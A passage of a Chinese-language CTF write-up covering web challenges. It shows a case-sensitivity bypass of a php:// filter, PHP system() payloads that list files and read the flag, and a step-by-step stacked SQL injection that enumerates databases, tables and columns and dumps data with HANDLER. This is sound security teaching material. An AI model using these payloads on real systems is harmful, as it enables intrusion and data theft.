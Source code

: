 将php://改为PHP://即可，因为strstr函数大小写敏感

Post传输恶意代码 ，burp抓包，post传参

```
<?php system("ls");?>

<?php system("cat fl4gisisish3r3.php");?>	看到3个文件，便能拿到flag
```



### supersqli

#### 考点：SQL堆叠注入

是一道SQL堆叠注入的题，

随便注入后发现该题是一个字符串类型的注入

注入时发现屏蔽的很多词，于是我们采用堆叠注入的方式

首先我们看**回显**几位

1. 查数显

   ```
   ?id=1' order by 2--+
   ```

2. 查看注入注入是否成功

   ```
   ?id=1';show databases%23
   ```

3. 爆表

   ```
   ?id=1'; show tables%23
   ```

4. 查字段

   ```
   ?id=1'; show columns from `1919810931114514` %23
   ```

5. 爆值

   ```
   ?id=1'; handler `1919810931114514` open;handler`1919810931114514` read first;		//handler查看内容
   ```



### warmup

打开页面，F12查看网页源代码，看到注释提示，随后进入这个页面

![warmup](images/web/攻防世界_warmup_1.png)

